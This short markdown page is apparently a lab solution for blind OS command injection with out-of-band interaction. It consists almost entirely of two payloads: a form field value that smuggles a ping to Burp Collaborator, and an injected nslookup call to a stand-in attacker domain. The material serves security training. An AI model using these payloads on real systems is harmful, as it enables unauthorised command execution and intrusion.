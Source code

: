 ```yaml
---
layout: default
title: 4 - Blind OS command injection with out-of-band interaction
---
```

```bash
email=x||ping+burpcollaborator.net|
```

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```
